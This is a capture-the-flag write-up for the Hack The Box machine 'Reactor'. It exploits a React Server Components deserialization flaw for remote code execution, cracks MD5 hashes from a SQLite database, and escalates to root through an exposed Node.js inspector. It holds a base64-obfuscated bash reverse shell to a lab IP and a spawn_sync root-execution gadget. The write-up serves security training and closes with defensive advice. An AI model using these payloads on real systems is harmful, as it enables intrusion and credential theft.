# HTB - Reactor

**IP Address:** `10.129.3.134`  
**OS:** `Linux / Ubuntu`  
**Difficulty:** `Easy`  
**Tags:** #NextJS #ReactServerComponents #CVE-2025-55182 #NodeDebugger #InsecureDeserialization

---
## Synopsis

Reactor is an Easy Linux machine running a Next.js web application ("ReactorWatch") powered by React 19.0.0-rc with Server Components. The React Server Components Flight protocol contains a critical insecure deserialization vulnerability (CVE-2025-55182, CVSS 10.0) that allows unauthenticated remote code execution via a crafted POST request. After gaining a shell as the `node` service user, credentials for the `engineer` user are extracted from a SQLite database embedded in the application, with the MD5-hashed password cracked using hashcat. Privilege escalation is achieved by attaching to a root-owned Node.js process that exposes its V8 inspector debugger on localhost port 9229, enabling arbitrary code execution as root through the `process.binding("spawn_sync")` gadget.

---
## Skills Required

- Web enumeration and technology fingerprinting
- Understanding of CVE research and public exploit usage
- Basic hash identification and cracking

## Skills Learned

- Exploiting CVE-2025-55182 (React Server Components insecure deserialization RCE)
- Identifying and interacting with the Next.js build manifest and RSC protocol
- Leveraging Node.js `--inspect` debugger for privilege escalation via `process.binding`

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.3.134
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.3.134 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,3000 10.129.3.134 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22 | SSH (OpenSSH 9.6p1 Ubuntu) | Recent version, unlikely direct vuln path |
| 3000 | HTTP (Next.js) | React Server Components app, primary attack surface |

---
## 2. Service Enumeration

### 2.1 Web Application Enumeration

The targeted scan reveals a Next.js application on port 3000 with `X-Powered-By: Next.js` and React Server Components headers. Fetching the homepage source confirms a nuclear reactor monitoring dashboard called "ReactorWatch v3.2.1":

```bash
curl -s http://10.129.3.134:3000/ | head -200
```



The dashboard is entirely static with no login forms, navigation links, or interactive elements. The footer reads: `REACTORWATCH™ © 2025 NUCLEAR DYNAMICS CORP. | FACILITY: SITE-7 | CLASSIFICATION: RESTRICTED`.

---
### 2.2 Directory and Route Enumeration

Standard directory brute-forcing with feroxbuster reveals only default Next.js static assets — no hidden routes or API endpoints:

```bash
feroxbuster -u http://10.129.3.134:3000 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 50 --status-codes 200,301,302,403
```



---
### 2.3 Next.js Build Manifest Analysis

Fetching the Next.js build manifest reveals the application uses the App Router with React Server Components and confirms the React version as 19.0.0-rc (November 2024):

```bash
curl -s http://10.129.3.134:3000/_next/static/L3bimJe_3LvBcFWAnK5L4/_buildManifest.js
curl -s http://10.129.3.134:3000/_next/static/L3bimJe_3LvBcFWAnK5L4/_ssgManifest.js
```



The `next.config.js` (later retrieved from the host) confirms Server Actions are explicitly enabled with `experimental.serverActions`. React 19.0.0-rc is vulnerable to CVE-2025-55182 — a critical insecure deserialization flaw in the RSC Flight protocol that allows unauthenticated RCE.

---
## 3. Foothold

### 3.1 CVE-2025-55182 — React Server Components RCE

CVE-2025-55182 (CVSS 10.0) is an insecure deserialization vulnerability in the `react-server-dom-webpack` package. The `requireModule` function uses unchecked bracket notation (`moduleExports[metadata[2]]`) to resolve Server Action references, allowing prototype chain traversal to the `Function` constructor. A crafted `multipart/form-data` POST request triggers arbitrary code execution on the server.

Using the public PoC exploit, RCE is confirmed as the `node` service user:

```bash
python3 CVE-2025-55182.py -c "id" http://10.129.3.134:3000
# uid=999(node) gid=988(node) groups=988(node)
```

The exploit exfiltrates output via the `x-action-redirect` response header, which limits results to single-line output. A staged reverse shell bypasses this restriction:

```bash
python3 CVE-2025-55182.py -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xNC80NDQ0IDA+JjE= | base64 -d > /tmp/r.sh" http://10.129.3.134:3000
python3 CVE-2025-55182.py -c "bash /tmp/r.sh" http://10.129.3.134:3000
```



---
### 3.2 Credential Extraction from SQLite Database

With a shell as `node`, the application directory at `/opt/reactor-app` contains a `.env` file referencing a SQLite database at `/opt/reactor-app/reactor.db`:

```bash
cat /opt/reactor-app/.env
```



Dumping the `users` table reveals MD5-hashed credentials:

```bash
sqlite3 /opt/reactor-app/reactor.db "SELECT * FROM users;"
```



| Username | MD5 Hash | Role |
|---|---|---|
| admin | `a203b22191d744a4e70ada5c101b17b8` | administrator |
| engineer | `39d97110eafe2a9a68639812cd271e8e` | operator |

---
### 3.3 Cracking the Hash and SSH Access

The `engineer` hash is cracked with hashcat against rockyou.txt, recovering the password `reactor1`:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```



Using these credentials to SSH in as `engineer` grants access to the user flag:

```bash
ssh engineer@10.129.3.134
cat /home/engineer/user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Identifying the Node.js Inspector Debugger

Enumerating running processes and listening ports as `engineer` reveals a root-owned Node.js process with the V8 inspector debugger exposed on localhost:

```bash
ss -tlnp
ps aux | grep node
```

The `uptime-monitor.service` runs `/usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js` as **root**. The `--inspect` flag opens a debugging interface that allows arbitrary JavaScript execution in the process context.



---
### 4.2 Root via Node.js Debugger Code Execution

Since the debugger listens only on localhost, we connect directly from the SSH session using `node inspect`. The ESM module context does not expose `require`, so `process.binding("spawn_sync")` is used instead to execute commands as root:

```bash
node inspect 127.0.0.1:9229
```

```javascript
exec('process.binding("spawn_sync").spawn({file:"/bin/bash",args:["bash","-c","cat /root/root.txt"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true}]}).output[1].toString()')
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Enumeration** — Port scan reveals SSH (22) and a Next.js web app (3000) running React 19.0.0-rc with Server Components.
2. **Foothold** — CVE-2025-55182 (insecure deserialization in React Server Components) provides unauthenticated RCE as the `node` service user.
3. **Lateral Movement** — SQLite database in the app directory contains MD5-hashed credentials; `engineer:reactor1` is cracked and used for SSH access.
4. **Privilege Escalation** — A root-owned Node.js process exposes its V8 inspector debugger on `127.0.0.1:9229`; attaching to it and executing code via `process.binding("spawn_sync")` yields root.

---
## Defensive Recommendations

- **Upgrade React and Next.js** — Update to React >= 19.0.1 and Next.js >= 15.0.5 to patch CVE-2025-55182 (insecure deserialization in RSC Flight protocol).
- **Remove `--inspect` from production services** — Never expose the Node.js V8 inspector debugger in production; it grants full code execution to anyone who can reach the port.
- **Use strong password hashing** — Replace MD5 with bcrypt/scrypt/argon2 for credential storage. MD5 hashes are trivially crackable.
- **Principle of least privilege** — Run monitoring services as a dedicated low-privilege user rather than root.
- **Network segmentation** — Restrict internal debug ports with firewall rules even on localhost, and audit which users can reach them.
